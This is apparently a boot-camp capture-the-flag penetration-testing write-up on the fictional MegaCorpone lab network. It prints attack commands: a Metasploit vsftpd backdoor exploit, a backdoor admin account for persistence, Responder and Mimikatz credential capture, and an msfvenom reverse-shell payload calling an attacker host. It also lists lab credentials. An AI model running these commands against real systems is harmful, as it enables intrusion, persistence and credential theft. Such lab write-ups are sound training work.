 # Challenges 16 &amp; 17: MegaCorpone/Offensive Security CTF

## Objective Summary
This project highlights offensive security techniques practiced during the University of California, Irvine's Cybersecurity Boot Camp. It involved simulating penetration testing on the fictional MegaCorpone Corporation to uncover and exploit vulnerabilities within their web application, Linux servers, and Windows servers. The objective was to identify potential security weaknesses and demonstrate real-world offensive security methodologies.
 
## Project Highlights
Key Achievements:
- Conducted vulnerability assessments and penetration tests on MegaCorpone’s web application.
- Exploited misconfigurations and weaknesses in Linux and Windows server environments.
- Delivered actionable security insights and recommendations based on findings.

### Technical Skills Gained
- Web Application Security:
   - Exploited vulnerabilities in web applications using tools like Burp Suite and Metasploit.
   - Applied OWASP principles to address web application threats.
- Server Security:
   - Conducted vulnerability scans and exploited misconfigurations on Linux and Windows servers.
   - Practiced privilege escalation to simulate full system compromise.
- Penetration Testing Methodology:
   - Followed the 5-phase penetration testing process: Reconnaissance, Scanning, Gaining Access, Maintaining Access, and Covering Tracks.
   - Used the MITRE ATT&CK Framework to guide structured attack simulations.
- OSINT & Reconnaissance:
   - Leveraged OSINT tools like OSINT Framework, Google, and GitHub for information gathering.


### Tools & Environments Used
| Category                                      | Tools Used       |
|-----------------------------------------------|----------------------------|
| <b>Penetration Testing Tools</b>       | Metasploit, Searchsploit, MsVenom |
| <b>Vulnerability Scanning</b>  |  Nmap, Zenmap, Nessus | 
| <b>Web Application Testing</b> | Burp Suite | 
| <b>OSINT Tools</b> | OSINT Framework, Google, GitHub, Shodan.io | 
| <b>Virtual Environments</b> |  Kali Linux, Windows 10, Hyper-V Manager, Azure Windows VMs | 



## Project Write up
### Scenario Overview
MegaCorpone, a fictional company, engaged penetration testers (CTP, LLC) to evaluate the security of its web application, Linux, and Windows servers. As they prepared for launch, the goal was to identify and remediate vulnerabilities to ensure a secure deployment.

### Summary of Project Steps

1. <b>Reconnaissance</b>

Gathered publicly available information using Google Dorking and OSINT tools to uncover:
- Website asset files
- Employee usernames and emails
- Sensitve company data
- Server details with open ports (22, 80, 443)

Google Dorking Example:
google: site:megacorpone.com intext:email OR filetype:pdf OR filetype:doc
____________________
2. <b>Scanning & Enumeration</b>

Performed Nmap/Zenmap scans to discover network assests and vulnerabilities:
- Detected open ports (22, 80, 443) and the server OS (Apache/2.4.62 on Debian) on Linux server.
- Identified two additional Windows machines and their open ports.

 Nmap Scan Command Example:
- nmap -sV 172.22.117.150 (service version scan)
____________________
3. <b>Exploitation of Linux Server</b>
- Used MSFconsole to exploit vsftp 2.3.4 service on port 21 to gain access.
- Extracted stored credentials from system text files.
- Used credentials to SSH into the server for further exploitation.

MSFconsole Exploit Example:
- msfconsole -q
- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 172.22.117.150
- exploit

 SSH into Linux Server:
- ssh msfadmin@172.22.117.150

Credentials Discovered:
| Username     | Password |
| ------------- | -------- |
| msfadmin | cybersecurity |
| tstark   | Password! | 
____________________
4. <b>Persistence & Credential Harvesting</b>
- Created a persistent backdoor user account to maintain system access.
- Used MSFconsole and LLMNR protocol to capture additional credentials from the Windows 10 machine.
- Exploited Windows DC machine using MSFvenom and Kiwi tools to extract further login credentials.

 Creating a New User for Persistence Example:
- sudo adduser systemmd:password
- sudo usermod -aG admin systemd
- ssh -p 10022 systemd@172.22.117.150

 Kiwi Tools Example:
- kiwi_cmd lsadump::cache
  
 Capturing Windows Credentials Example:
- sudo responder -I eth1 -v

____________________
5. <b>Lateral Movement & Privilege Escalation</b>
- Used admin credentials to move laterally from Windows 10 to the Domain Controller (WinDC01).
- Deployed MSFvenom payloads to escalate privileges and compromise additional systems.

MSFvenom Payload:
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.20 LPORT=4444 -f exe > shell.exe

____________________
### Conclusion

CTP, LLC’s penetration test successfully uncovered critical security vulnerabilities in Megacorpone’s infrastructure. The test demonstrated how weak passwords, exposed usernames, unprotected ports, and vulnerable services could be exploited to gain unauthorized access. Addressing these security gaps is imperative to prevent potential cyber threats, data breaches, and ransomware attacks.

#### Key Takeaways:
- <b>Strengthen Password Policies:</b> Enforce multi-factor authentication and strong password requirements.
- <b>Update or Disable Daemon Services:</b> Regularly update or disable unnecessary services to reduce attack surfaces.
- <b>Secure Open Ports:</b> Restrict unnecessary services and implement firewall rules.
- <b>Monitor for Unauthorized Access:</b> Deploy intrusion detection systems (IDS) to detect suspicious activity.








